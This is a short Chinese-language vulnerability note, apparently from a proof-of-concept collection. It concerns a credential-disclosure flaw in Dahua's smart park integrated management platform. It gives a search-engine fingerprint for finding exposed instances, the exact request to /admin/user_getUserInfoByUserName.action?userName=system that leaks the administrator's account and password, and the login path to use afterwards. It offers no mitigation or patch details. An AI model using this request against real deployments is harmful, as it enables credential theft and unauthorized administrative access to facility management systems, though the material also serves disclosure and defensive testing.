 # 

# 大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 账号密码泄漏漏洞

## 漏洞描述

大华 智慧园区综合管理平台 user_getUserInfoByUserName.action 中存在API接口，导致管理园账号密码泄漏

## 漏洞影响

智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

![image-20230828144644472](images/image-20230828144644472.png)

请求POC

```
/admin/user_getUserInfoByUserName.action?userName=system
```

![image-20230828144658624](images/image-20230828144658624.png)

获取后访问地址

```
/admin/login_login.action
```

![image-20230828144732646](images/image-20230828144732646.png)
